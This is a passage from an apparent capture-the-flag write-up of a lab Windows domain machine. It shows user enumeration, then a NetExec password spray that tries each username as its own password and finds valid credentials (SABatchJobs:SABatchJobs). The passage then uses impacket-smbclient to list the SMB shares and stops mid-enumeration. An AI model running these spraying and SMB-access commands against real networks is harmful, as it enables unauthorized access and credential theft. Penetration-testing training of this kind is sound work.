 ```shell
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan        Name: Sally Morgan      Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata        Name: svc-ata   Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec      Name: svc-bexec Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)
```
## Password Spraying with NetExec using Username as Password
When dealing with credentials, it's always important to test if a user is using its username as password. In this case, we can create a custom list containing the names of the users:
```shell
cat usernames.txt

Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```
And then use the list usernames.txt to carry out a password spraying attack using NetExec:
```shell
nxc smb 10.129.228.111 -u usernames.txt -p usernames.txt --continue-on-success
```

```shell
<SNIP>
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:SABatchJobs STATUS_LOGON_FAILURE 
<SNIP>
```
If we examine the NetExec results, we will see that we got valid credentials:
```shell
SABatchJobs:SABatchJobs
```
## SMB Access as SABatchJobs using impacket-smbclient
We will use the credentials of SABatchJobs and impacket-smbclient to get SMB access:
```shell
impacket-smbclient 'SABatchJobs':'SABatchJobs'@10.129.228.111
```
And display the SMB shares with the "shares" command:
```shell
# shares
ADMIN$
azure_uploads
C$
E$
IPC$
NETLOGON
SYSVOL
users$
```
After some manual enumeration, we can find a file called "azure.xml" containing a password. We can use the "mget" command to get it:
```shell
# use users$
```